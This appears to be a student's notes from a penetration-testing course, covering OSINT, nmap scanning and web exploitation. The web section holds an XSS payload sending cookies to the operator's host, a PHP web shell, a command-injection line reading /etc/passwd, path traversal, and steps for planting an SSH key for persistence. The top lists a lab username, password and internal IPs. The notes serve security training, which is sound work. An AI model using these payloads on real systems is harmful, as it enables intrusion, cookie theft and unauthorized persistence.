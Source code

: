 Stack  USERNAME    PASSWORD        JUMPBOX-IP
13 	ANSP-007-M 	QZozUJFIeaiguQQ 	10.50.33.89
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
CTFD 10.50.20.103:8000
Lin-ops = 192.168.65.20 // 10.50.29.245
Win-ops = 192.168.65.10 // 10.50.32.34
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Penetration Testing
  What is Pen Testing??
    -Pen Testing 
**Phase 1: Mission Definition**
    -Define mission goals and targets
    -Determine scope of mission
    -Define RoE
**Phase 2: Recon**
  -Information gathering about the target through public sources
**Phase 3: Footprinting**
  -Accumulate data through scanning and/or interaction with the target/target resources
**Phase 4: Exploitation & Initial Access**
  -Gain an initial foothold on network
**Phase 5: Post-Exploitation**
    -Establish persistence
    -Escalate privileges
    -Cover your tracks
    -Exfiltrate target data
**Phase 6: Document Mission**
  -Document and report mission details
**Penetration Test Reporting**
  -Operation Notes (OPNOTES) vs Formalized Reporting
**Penetration Test Reporting**
    -Executive Summary
    -Technical Summary
**Penetration Test Reporting**
    -Reasons to report
    -What to report
    -Screen captures
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Vulnerability and Exploitation Research
**Initial Access**
    -What is initial access?
    -What is now the most common method for gaining initial access?                                  
                     Phishing!
**Initial Access**
What are some other techniques to gain initial access?
**Introduction to Exploit Research** password: 
Permission denied,
    Transition from reconnaissance to weaponization
    Leverage intelligence/data about network
    Pair vulnerabilities to exploits
    Align exploits to operational objectives
**Research**
    Open sources
    Organizational capabilities
**Capabilities**
    Mission Objectives drive requirements
        Collection
        Effects
    Additional functionality to fulfill requirements
    Communications security (COMSEC)
**Testing**
    Exploit Development occurs from vulnerability pairing and mission-drivens requirement
        Test and verify success
    Testing provides a number of benefits:
        Faster time to breakout of initial foothold
        Reduced risk of detection and/or tool failure
        Improved recovery times
**Plan**
    Procure Hardware and software
    Assign developer
    Assign a tester to develop TTPs and break it
    Document testing results
    Testing environment
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Network Reconnaisance and Scanning 
**Open Source Intelligence**
During the lesson we will review the following topics:
    Appropriate Documentation Practices
    Use of Collected Data
    Collection Methods
DoD States:
"produced from publicly available information that is collected, exploited, and disseminated in a timely manner to an appropriate audience for addressing a specific intelligence requirement."
**Documentation**
    Why is it important?
    What should we include in documentation?
**Collection and Use**
    What do we want to collect?
    How can it be used in operations?
**Limitations on Collection**
    Are there rules that guide our operations and collection parameters?
    What are important factors when collecting data about a target?
**Data to Collect**
    Web Data
    Sensitive Data
    Publicly Accessible
    Social Media
    Domain and IP Data
**Hyper-Text Markup Language (HTML)**
Standardized markup language for browser interpretation of webpages
    Client-side interpretation (web browser)
    Utilizes elements (identified by tags)
Typically redirects to another page for server-side interaction
Cascading Stylesheets (CSS) for page themeing
**HTML**
DEMO: Simple HTML page
**http://10.50.XX.XX/webexample/htmldemo.html**
Demonstration
Data collection through scraping
Scraping Data
**Prep**
pip install lxml requests
**Script**
#!/usr/bin/python
import lxml.html
import requests
page = requests.get('http://quotes.toscrape.com')
tree = lxml.html.fromstring(page.content)
authors = tree.xpath('//small[@class="author"]/text()')
print ('Authors: ',authors)
**What will it output?**
Authors:  ['Albert Einstein', 'J.K. Rowling', 'Albert Einstein', 'Jane Austen', 'Marilyn Monroe', 'Albert Einstein', u’Andr\xe9 Gide', 'Thomas A. Edison', 'Eleanor Roosevelt', 'Steve Martin']
**Advanced Scanning Techniques**
    Host Discovery
        Find hosts that are online
    Port Enumeration
        Find ports for each host that is online
    Port Interrogation
        Find what service is running on each open/available port     
**Demonstration**
Advanced Scanning Techniques
**NMAP Scripting Engine**
During the lesson we will review the following topics:
    Benefits of Scanning with Scripts
    Script Management and Utilization
    Usage and Examples
**Nmap Project States:**
"(It) allows users to write (and share) simple scripts to automate a wide variety of networking tasks. Those scripts are then executed in parallel with the speed and efficiency you expect from Nmap."
**Benefits**
    Why use scripts, instead of normal scanning options?
    Why are scripts important?
**Main Benefits**
    Network Discovery
    Sophisticated Version Detection
    Vulnerability Detection
    Backdoor Detection
    Vulnerability Exploitation
**Script Management**
Scripts are stored in a subdirectory of the Nmap data directory by default:
/usr/share/nmap/scripts
**Usage and Examples**
nmap --script <filename>|<category>|<directory>
nmap --script-help "ftp-* and discovery"
nmap --script-args <args>
nmap --script-args-file <filename>
nmap --script-help <filename>|<category>|<directory>
nmap --script-trace
**Demonstration**
Usage of Nmap NSE

for i in {1..254}; do (ping -c 1 172.16.82.$i | grep "bytes from" &) ; done

Scheme of Maneuver:
>jump box
-> network scan 192.168.28.96/27
--> network scan 192.168.150.224/27
nmap scripts
  --script=http-enum <ip>
  

=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Web Exploitation
**Server/Client Relationship**
    Synchronous communications between user and services
    Not all data is not returned, client only receives what is allowed
**Hyper-Text Transfer Protocol (HTTP)**
    Request/Response
        Various tools to view:
            tcpdump
            wireshark
            Developer Console
GET / HTTP/1.1
HTTP/1.1 200 OK
**HTTP Methods**
A Select Few:
    GET
    POST
    HEAD
    PUT
https://tools.ietf.org/html/rfc2616
**HTTP Response Codes**
    10X == Informational
    2XX == Success
    30X == Redirection
    4XX == Client Error
    5XX == Server Error
https://tools.ietf.org/html/rfc2616
**HTTP Packet Headers**
DEMO: Look at a header!
    Open a browser (on your opstation) and enter the Developer Console
**HTTP Fields**
    User-Agent
    Referer
    Cookie
    Date
    Server
    Set-Cookie
**HTTP Method Notes**
GET request can be utilized to pass data to the server using the URL string:
http://10.50.x.x/path/pathdemo.php?myfile=demo1
Wget
    Recursively download
    Recover from broken transfers
    SSL/TLS support
wget -r -l2 -P /tmp ftp://ftpserver/
wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website
wget --load-cookies cookies.txt -p https://website/interesting/article.php
cURL
    Not recursive
    Can use pipes
    Upload ability
    Supports more protocols vs Wget, such as SCP & POP3
curl -o stuff.html https://web.site/stuff.html
curl 'https://web.site/submit.php' -H 'Cookie: name=123; settings=1,2,3,4,5,6,7' --data 'name=Stan' | base64 -d > item.png
**JavaScript (JS)**
    Allows websites to interact with the client
        JavaScript runs on the client’s machine
    Coded as .js files, or in-line of HTML
**JS Interaction**
<script>
function myFunction() {
    document.getElementById("demo").innerHTML = "Paragraph changed.";
}
</script>
<script src="https://www.w3schools.com/js/myScript1.js"></script>
**JS in action**
DEMO: Lets take a look at Javademo.html
http://10.50.XX.XX/java/Javademo.html
**Developer Console**
(Must be done from opstation!)
**Enumeration**
    Robots.txt   (varwwwhtml)
Legitimate surfing
Tools:
    NSE scripts
    Nikto
    Burp suite (outside class)
**Cross-Site Scripting (XSS) Overview**
    Insertion of arbitrary code into a webpage, that executes in the browser of visitors
    Unsanitized GET, POST, and PUT methods allow JS to be placed on websites
    Often found in forums that allow HTML
**Reflected XSS**
    Most common form of XSS
    Transient, occurs in error messages or search results
    Delivered through intermediate media, such as a link in an email
    Characters that are normally illegal in URLs can be Base64 encoded
Below is what you see, but the server will decode as name=abc123
http://example.com/page.php?name=dXNlcjEyMw
**Stored XSS**
    Resides on vulnerable site
    Only requires user to visit page
<img src="http://invalid" onerror="window.open('http://10.50.XX.XX:8000/ram.png','xss','height=1,width=1');">
Useful JavaScript Components
Proof of concept (simple alert):
<script>alert('XSS');</script>
    Capturing Cookies
    document.cookie
    Capturing Keystrokes
        bind keydown and keyup
    Capturing Sensitive Data
    document.body.innerHTML
**Server-Side injection**
Directory Traversal/Path Traversal
    Ability to read/execute outside web server’s directory
    Uses ../../ (relative paths) in manipulating a server-side file path
view_image.php?file=../../etc/passwd
**Malicious File Upload**
Site allows unsanitized file uploads
    Server doesn’t validate extension or size
    Allows for code execution (shell)
    Once uploaded
        Find your file
        Call your file
**Command Injection**
Application on the server is vulnerable,
allowing execution of arbitrary commands
    User input not validated
        Common example is a SOHO router, with a web page to allow ping
Might contain the following in it’s code:
system("ping -c 1 ".$_GET["ip"]);
Run the following to chain/stack our arbitrary command
; cat /etc/passwd

 <script>document.location="http://lin-op:8000"/+document.cookie;</script>
python3 -m http.server

  <HTML><BODY>
  <FORM METHOD="GET" NAME="myform" ACTION="">
  <INPUT TYPE="text" NAME="cmd">
  <INPUT TYPE="submit" VALUE="Send">
  </FORM>
  <pre>
  <?php
  if($_GET['cmd']) {
    system($_GET['cmd']);
    }
  ?>
  </pre>
  </BODY></HTML>


Through either malicious upload or command injection, we can potentially upload our ssh key onto the target system. By uploading our key to the target, we can give ourselves access without needing a password.
**SSH Key Setup**
    **Run the ssh key gen command on ops-station. When prompted for location to save just press enter to leave default, you can press enter for password as well**
     ssh-keygen -t rsa -b 4096
   **After generating ssh key look for public key in your .ssh folder. Your public key will have .pub as the extension**
     cat ~/.ssh/id_rsa.pub
    **Find out what account is running the web sever/commands.**
     whoami
    **Once the user is known find this users home folder by looking in /etc/passwd. We also want to make sure the user has a login shell. For the demo we looked for www-data in passwd because they were the resluting user from the previous whoami command.**
     www-data:x:33:33:www-data:/var/www:/bin/bash    #/var/www is the home folder for this user and /bin/bash is login shell.
   **Check to see if .ssh folder is in the users home directory. If not make it**
     ls -la /users/home/directory      #check if .ssh exist
     mkdir /users/home/directory/.ssh   #make .ssh in users home folder if it does not exist
   **Echo ssh key to the authorized_keys file in the users .ssh folder.**
     echo "your_public_key_here" >> /users/home/directory/.ssh/authorized_keys
    **Verify key has been uploaded successfully.**
     cat /users/home/directory/.ssh/authorized_keys
Once this process has be finished you should now be able to ssh on the target system as the user who is running the web server. If prompted for a password something has gone wrong.

uploads
robots.txt










































































































































































































































































































































































































































































































































































